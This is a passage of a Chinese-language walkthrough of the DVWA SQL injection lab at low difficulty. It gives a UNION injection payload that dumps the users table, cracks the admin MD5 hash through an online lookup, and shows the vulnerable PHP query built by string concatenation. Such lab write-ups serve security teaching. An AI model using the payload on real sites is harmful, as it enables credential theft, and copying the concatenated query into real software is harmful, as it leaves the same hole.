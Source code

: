 这里就以users表来继续获取信息。

```sql
1' union select user, password from users ; #
```

<img src="../images/dvwa_lib/sql_inject_low_dvwa_table_users.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px"  height="260px"/>

可以很清楚的知道有：admin、gordonb、1337、pablo、smithy这些人注册了网站以及对应的密码。

然后是**破解密码了**，百度查了一下，发现一个工具 [Cain](https://sourceforge.net/projects/hashidentifier/) 和 [密码破解之Cain破解MYSQL密码](https://blog.csdn.net/Aaron_Miller/article/details/80493440)  

但按照操作报错说hash密码长度不对，猜想会不会不是这种加密方式，百度查了一下数据库密码破解，在论坛中发现有人说类似于这个密码的字符串是md5加密，利用[在线MD5解密](https://www.cmd5.com/)，解密

```
First name: admin
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```

发现成功解出密码：password。

**看一下low的源码**

```php
// Get input
$id = $_REQUEST[ 'id' ];

// Check database
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
$result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );
```

可以很明显的发现，其实就是简单的拼接


